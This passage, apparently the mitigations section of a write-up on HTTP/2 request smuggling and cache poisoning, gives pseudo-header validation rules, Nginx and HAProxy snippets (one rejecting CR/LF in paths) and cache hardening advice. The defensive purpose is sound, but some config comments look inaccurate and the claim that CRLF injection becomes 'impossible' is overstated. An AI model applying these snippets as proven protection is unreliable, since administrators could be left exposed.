The foundational flaw is accepting illegal whitespace and delimiter characters within HTTP/2 pseudo-headers.
* **Validation Rules:** Front-end proxies must reject any request where `:path`, `:method`, `:scheme`, or `:authority` contains ASCII whitespace (`0x20`), carriage return (`0x0D`), line feed (`0x0A`), or NUL (`0x00`).
* **Immediate Protocol Error:** Under RFC 9113 Section 8.2.1, any malformed pseudo-header field must be treated as a stream error of type `PROTOCOL_ERROR` (`RST_STREAM`).

### 4.2 Adopting End-to-End HTTP/2
* The most resilient architectural defense against request smuggling is eliminating HTTP/2 downgrading entirely.
* When both the edge proxy and internal upstream servers communicate natively over **HTTP/2 end-to-end**, request framing is strictly delineated by binary frame headers (`FRAME_LENGTH`). CRLF injection becomes impossible because delimiters have no semantic meaning.

### 4.3 Secure Reverse Proxy & Cache Configuration

#### Nginx
When Nginx functions as a caching reverse proxy, ensure that URI normalization is enforced and raw unvalidated header lines are not passed downstream:
```nginx
# Disallow raw unescaped URI manipulation
proxy_http_version 1.1;
proxy_set_header Connection "";

# Restrict caching of HEAD requests if the upstream returns unexpected bodies
proxy_cache_methods GET; # Exclude HEAD from being cached with foreign bodies
proxy_cache_key "$scheme$request_method$host$request_uri";
```

#### HAProxy
HAProxy provides strict HTTP/2 protocol parsing when configured in `mode http`:
```haproxy
frontend fe_http2
    mode http
    bind :443 ssl crt /etc/ssl/certs/site.pem alpn h2,http/1.1
    # Reject requests with control characters in URI
    http-request reject if { path -m reg [\r\n] }
```

### 4.4 Defensive Cache Engine Architecture
1. **Never Cache Bodies for `HEAD` Requests:** A cache engine must explicitly discard any response body data if the client request method was `HEAD`.
2. **Context-Aware XSS Encoding in Redirects:** Frameworks must sanitize or URL-encode any user-supplied query string before embedding it into HTTP redirect responses (`Location` header and default HTML body).
